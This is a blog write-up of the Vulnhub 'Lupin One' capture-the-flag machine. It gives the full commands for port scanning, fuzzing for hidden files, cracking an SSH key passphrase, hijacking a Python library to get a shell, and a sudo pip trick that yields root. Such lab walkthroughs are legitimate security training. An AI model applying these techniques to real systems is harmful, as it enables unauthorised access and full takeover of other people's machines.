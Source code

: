 ```yaml
---
layout: single
title: Lupin One - Vulnhub
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-11-16
classes: wide
header:
  teaser: /blog/assets/images/vulnhub-lupinone-writeup/lupinone_logo.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.png
categories:
  - WriteUp
  - Vulnhub
---
```

![](../assets/images/vulnhub-lupinone-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupinnmap.png)

## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

![](../assets/images/vulnhub-lupinone-writeup/lupinerror.png)

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin3.png)

This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt

![](../assets/images/vulnhub-lupinone-writeup/lupin4.png)

This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

![](../assets/images/vulnhub-lupinone-writeup/lupin5.png)

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js

![](../assets/images/vulnhub-lupinone-writeup/lupin6.png)

This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

![](../assets/images/vulnhub-lupinone-writeup/lupin7.png)


### Decrypting the Hidden Message

![](../assets/images/vulnhub-lupinone-writeup/lupin8.png)

The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

![](../assets/images/vulnhub-lupinone-writeup/lupin9.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin10.png)


### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash

![](../assets/images/vulnhub-lupinone-writeup/lupin11.png)

John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash

![](../assets/images/vulnhub-lupinone-writeup/lupin12.png)

The password P@55w0rd! is successfully retrieved.

## Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin13.png)

Finding the Flag

![](../assets/images/vulnhub-lupinone-writeup/lupin14.png)

Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

### Privilege Escalation 
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l

![](../assets/images/vulnhub-lupinone-writeup/lupin15.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin16.png)

A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

![](../assets/images/vulnhub-lupinone-writeup/lupin17.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin18.png)

nano /usr/lib/python3.9/webbrowser.py

![](../assets/images/vulnhub-lupinone-writeup/lupin19.png)

The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

![](../assets/images/vulnhub-lupinone-writeup/lupin20.png)

### Root Access

![](../assets/images/vulnhub-lupinone-writeup/lupin21.png)

After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

![](../assets/images/vulnhub-lupinone-writeup/lupin22.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin23.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin24.png)

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

![](../assets/images/vulnhub-lupinone-writeup/lupin25.png)


Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper